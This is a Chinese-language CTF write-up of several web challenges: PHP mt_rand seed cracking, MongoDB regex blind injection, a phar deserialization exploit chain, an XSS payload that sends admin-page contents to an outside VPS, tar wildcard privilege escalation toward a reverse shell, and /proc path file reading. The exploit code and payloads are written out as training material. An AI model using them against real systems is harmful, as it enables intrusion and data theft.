## 用优惠码买个X？
hint：flag在/flag中

注册登陆会弹出一个15位的优惠码

输入优惠码购买会提示：此优惠码已失效! 请重新输入24位长的优惠码,由此来完成您的购买！

扫目录扫到www.zip，只给了一个source.php
```php
<?php
//生成优惠码
$_SESSION['seed']=rand(0,999999999);
function youhuima(){
  mt_srand($_SESSION['seed']);
    $str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $auth='';
    $len=15;
    for ( $i = 0; $i < $len; $i++ ){
        if($i<=($len/2))
              $auth.=substr($str_rand,mt_rand(0, strlen($str_rand) - 1), 1);
        else
              $auth.=substr($str_rand,(mt_rand(0, strlen($str_rand) - 1))*-1, 1);
    }
    setcookie('Auth', $auth);
}
//support
  if (preg_match("/^d+.d+.d+.d+$/im",$ip)){
        if (!preg_match("/?|flag|}|cat|echo|*/i",$ip)){
               //执行命令
        }else {
              //flag字段和某些字符被过滤!
        }
  }else{
             // 你的输入不正确!
  }
?>
```
mt_srand()函数的随机数种子由rand(0,999999999)生成。然后用mt_rand(0,61)生成随机数来随机截取字符串$str_rand中的一个字符。因此我们只要得到mt_srand()函数的播种种子的值，就可以预测出24位的优惠码。
这里可以参考wonderkun师傅的文章：[php的随机数的安全性分析](http://wonderkun.cc/index.html/?p=585)
我们可以根据最终得到的字符串来反推出mt_rand()函数生成的15个随机数值，然后爆破出种子即可。

这里用到了爆破种子的c语言程序php_mt_seed：http://www.openwall.com/php_mt_seed/

然后用wonderkun师傅的脚本得到15个随机数并整理成该爆破程序所需要的格式

因为我用15个爆破不出来，这里我只生成了前面的一部分随机数，不过并不会影响结果。
```php
<?php
$str = "z9uDXeHLCJ7LqRq";
$randStr = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$len=15;
for($i=0;$i<$len;$i++){
    if($i<=($len/2))
    {
        $pos = strpos($randStr,$str[$i]);
        echo $pos." ".$pos." "."0 ".(strlen($randStr)-1)." ";
    }

   //整理成方便 php_mt_seed 测试的格式
  //php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]
}
echo "n";
?>
```
生成的值：
```
25 25 0 61 35 35 0 61 20 20 0 61 39 39 0 61 59 59 0 61 4 4 0 61 43 43 0 61 47 47 0 61
```
用php_mt_seed爆破出来一个种子

然后把源码改成生成24位的
```php
<?php
//生成优惠码
function youhuima(){
    mt_srand(104038799);
    $str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $auth='';
    $len=24;
    for ( $i = 0; $i < $len; $i++ ){
        if($i<=($len/2))
              $auth.=substr($str_rand,mt_rand(0, strlen($str_rand) - 1), 1);
        else
              $auth.=substr($str_rand,(mt_rand(0, strlen($str_rand) - 1))*-1, 1);
    }
    echo $auth;
}
youhuima();
```
这里注意，通过题目的响应包我发现题目环境为7.2的，所以这里需要用php7运行这段代码，生成24位优惠码。


接下来就是RCE绕过，利用%0a绕过$


## Injection???
这道题的验证码是真的恶心。

根据提示的info.php页面，看到php的mongodb扩展，并没有mysql扩展。所以猜测应该是mongodb注入。

尝试admin，admin登陆。弹出username or password incorrect!，所以可以知道用户名是admin。
构造check.php?username=admin&password[$ne]=admin

应该是注入成功，但是返回了所有密码，并不能绕过登陆。但是这里可以用正则[$regex]盲注密码。
例如check.php?username=admin&password[$regex]=^a返回


而check.php?username=admin&password[$regex]=^s返回

说明存在s开头的密码，然后继续盲注即可，最后试出来密码为skmun。登陆即可获得flag。

flag：swpuctf{1ts_N05ql_Inj3ction}

## SimplePHP
提示 flag is in f1ag.php

file.php?file=可以任意文件读取。上传不存在绕过，主要看file.php和class.php。

file.php
```php
<?php
header("content-type:text/html;charset=utf-8");
include 'function.php';
include 'class.php';
ini_set('open_basedir','/var/www/html/');
$file = $_GET["file"] ? $_GET['file'] : "";
if(empty($file)) {
    echo "<h2>There is no file to show!<h2/>";
}
$show = new Show();
if(file_exists($file)) {
    $show->source = $file;
    $show->_show();
} else if (!empty($file)){
    die('file doesn't exists.');
}
?>
```
这里用了file_exists($file)判断文件是否存在，能够触发phar反序列化。

class.php
```php
<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}


class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|..|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }

    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|../i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?>
```
_show方法把f1agWAF掉了所以我们不能直接去读flag。

但是Test类的get方法能够获取一个参数做为文件名，然后调用file_get方法返回文件内容的base64值。而且__get魔术方法调用了get方法。我们可以想办法触发__get魔术方法。

Show类的__toString魔术方法调用了未知对象的source属性，而对象str[‘str’]我们可控，因此我们可以传入Test对象去调用不存在的source属性来触发__get方法。

而C1e4r类的__destruct()方法可以用来触发Show类的__toString方法

最终的exp
```php
<?php
class C1e4r{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}

class Test
{
    public $file;
    public $params;

}

$a = new Test();
$a->params = [
    'source' => '/var/www/html/f1ag.php'
];

$b = new Show();
$b->str['str'] = $a;

$c = new C1e4r();
$c->str = $b;

$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

copy('phar.phar','exp.gif');

?>
```
上传的最终文件路径为upload/md5(文件名+ip).jpg

触发反序列化


flag：SWPUCTF{Php_un$eri4liz3_1s_Fu^!}

## 有趣的邮箱注册
访问admin.php会显示只有localhost才能访问，估计是要用xss来进行ssrf。

源码中发现check.php部分代码
```php
<?php
if($_POST['email']) {
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL)){
echo "error email, please check your email";
}else{
echo "等待管理员自动审核";
echo $email;
}
}
?>
```
可以看到利用了FILTER_VALIDATE_EMAIL过滤器来过滤注册的邮箱，是不安全的。

可以参考p神师傅的文章：https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html
邮箱地址分为local part和domain part两部分，local part中可以利用双引号来包含特殊字符。如”<svg/onload=alert(1)>”@example.com是合法的

所以我们可以构造”<scRipt/src=http://yourvps/123.js></scriPt>”@qq.com进行xss。但是发现打到的cookie为空，所以只能利用ajax来读取后台页面。
```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://yourvps/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","admin.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send();
```
在自己的vps上监听端口，即可收到请求。

可以发现admin.php中有一个admin/a0a.php?cmd=whoami，明显的命令执行。但是一直弹不回来shell，不知道为什么，只好用ajax把命令执行的结果反弹回来。

构造
```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://47.106.142.99:8012/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","a0a.php?cmd=ls /",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send();
```

但是读取flag会发现返回为空，执行ls -al /发现flag文件属于flag用户，且其他用户无法读取。

通过ls我们发现了一个MD5名字的目录，ls一下发现有upload.php，并且属于flag用户。

访问页面，给了一个上传功能，一个备份功能。发现可以任意文件上传，上传php但是不可访问。备份点开可以发现是使用tar命令就行备份。

shadow爷爷告诉我这里可以利用tar命令进行提权。参考：利用通配符进行Linux本地提权

其实就是把文件名当作命令参数给执行了。

将反弹shell的命令写入shell.sh，并上传。再接着上传两个文件–checkpoint-action=exec=sh shell.sh和–checkpoint=1，然后点击备份即可反弹shell。但是一直不能成功，按理说是没问题的，问了题目客服，他也说没问题。这就很迷了23333。

最后把shell.sh内容改成
```bash
cat /flag|base64
```
可以直接读取flag。


## 皇家线上赌场
登陆查看源码可以看到提示<!– /source –>以及/static?file=test.js弹出的xss，访问一下source可以看到一个目录树和views.py中的任意文件读取。

但是限制了..，我们只能用绝对路径去读取源码。

通过读取/proc/self/mounts可以看到一个/home/ctf/web_assli3fasdf路径，但是里面读取不到views.py的内容。

shadow爷爷告诉我/proc/self/cwd/app/views.py可以读

```python
def register_views(app):
    @app.before_request
    def reset_account():
        if request.path == '/signup' or request.path == '/login':
            return
        uname = username=session.get('username')
        u = User.query.filter_by(username=uname).first()
        if u:
            g.u = u
            g.flag = 'swpuctf{xxxxxxxxxxxxxx}'
            if uname == 'admin':
                return
            now = int(time())
            if (now - u.ts >= 600):
                u.balance = 10000
                u.count = 0
                u.ts = now
                u.save()
                session['balance'] = 10000
